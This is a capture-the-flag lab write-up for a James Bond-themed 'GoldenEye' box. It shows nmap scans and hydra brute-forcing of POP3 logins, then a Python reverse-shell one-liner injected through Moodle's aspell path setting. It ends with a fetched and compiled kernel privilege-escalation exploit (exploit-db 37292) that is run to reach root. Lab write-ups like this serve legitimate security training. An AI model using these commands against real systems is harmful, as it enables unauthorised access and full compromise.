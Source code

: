 # Intro & Enumeration
## This room will be a guided challenge to hack the James Bond styled box and get root.
### Use nmap to scan the network for all ports. How many ports are open?
```bash
nmap -p- -Pn <IP>
```
- `-p-`: Allow us to scan all 65535 TCP ports
- `-Pn`: Skips the host discovery process (ping scan)

[SCREEN01]

### Who needs to make sure they update their default password?

1. Go to the <IP>:80 site
2. Right click -> 'View Page Source'
3. In `view-source:http://<IP>/` go to `terminal.js`
[SCREEN02]
4. In `view-source:http://<IP>/terminal.js` we can see some interesting comments
[SCREEN03]

### Whats their password?
We can decode encoded password using [CyberChief](https://gchq.github.io/CyberChef/), and selecting '**From HTML Entity**'

# Its mail time...
## Onto the next steps
### If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra? Whats their new password?
Hint: pop3
1. Let's check the previously unknown ports for more information. We can see that port 55007 is for pop3
```bash
nmap -p 55006,55007 -sV <IP>
```
- `-p `: Allow us to scan selected ports
- `-sV`: Probes ports to determine service/version info

[SCREEN04]

2. Unfortunately previous credentials do not work
```bash
telnet <IP> 55007
USER boris
PASS I**r
``` 
[SCREEN05]

3. So we go with the hydra:
```bash
hydra -l boris -P /root/Tools/wordlists/fasttrack.txt <IP> pop3 -s 55007
```
- `-l`: Single username specification
- `-P`: Password list file path
- `-s`: Port specification

[SCREEN06]

### What can you find on this service?

The answer is: `emails`

1. We can login with newly acquired password, and look through the messages
```bash
telnet <IP> 55007
USER boris
PASS s**!
LIST
RETR 1
RETR 2
RETR 3
QUIT
```
2. From message number 2 we can see that Boris was messaging with Natalya - so this will be our next target
```bash
hydra -l natalya -P /root/Tools/wordlists/fasttrack.txt <IP> pop3 -s 55007
```
[SCREEN07]

3. Let's login to Natalya account. In second email we can find credentials for new student - xenia
```bash
telnet <IP> 55007
USER natalya
PASS b**d
LIST
RETR 1
RETR 2
```

[SCREEN08]

### What user can break Boris codes?
We can find answer in second message for Boris and first for Natalya
[SCREEN09]
[SCREEN10]

# GoldenEye Operators Training
## Enumeration really is key. Making notes and referring back to them can be lifesaving. We shall now go onto getting a user shell.

### Try using credentials you found earlier. Which user can you login as?
It's the last one we have found `xenia:R**!`

### Have a poke around this site. What other users can you find?
We can find [message](http://severnaya-station.com/gnocertdir/message/index.php?viewing=unread&user2=5) from Dr. Doak

[SCREEN11]

### What was this user password?
We go back to hydra:
```bash
hydra -l doak -P /root/Tools/wordlists/fasttrack.txt <IP> pop3 -s 55007
```
[SCREEN12]

### What is the next user you can find from doak?
### What is the users password?
After login to pop3 in first email has them in plaintext:
```bash
telnet <IP> 55007
USER doak
PASS g**t
LIST
RETR 1
```
user and password `dr_doak:4**!`

[SCREEN13]

# Privilege Escalation
##  Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.

### Whats the kernel version?
Hint: Settings->Aspell->Path to aspell field, add your code to be executed. Then create a new page and 'spell check it'.

1. Set listener with netcat:
```bash
nc -lvnp 1234
```
- `-l`: Listen mode
- `-v`: Verbose output
- `-n`: Skip DNS lookup
- `-p`: Specify the port number to listen on

2. Login to moodle with admin credentials `admin:x**!` from image, and search for '[spell](http://severnaya-station.com/gnocertdir/admin/search.php?query=spell)'. Change 'Spell engine' to 'PSpellShell' and put the below script into 'path to aspell':
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
[SCREEN17]

3. Now when activate spellcheck on [some text](http://severnaya-station.com/gnocertdir/mod/forum/post.php?forum=1) to get reverse shell

Once we are in:
```bash
uname -a
```
- `-a`: Displays all system information that `uname` can provide

[SCREEN14]

### What is the root flag?
1. Run to enable sending files:
```bash
python -m SimpleHTTPServer 1337
```

2. We need to modify 143 line of the [37292](https://www.exploit-db.com/exploits/37292) to look like this

[SCREEN15]

```bash
wget <IP>:<PORT>/37292.c
```
```bash
cc 37292.c -o exploit
```
```bash
./exploit
```
```bash
cat /root/.flag.txt
```
[SCREEN16]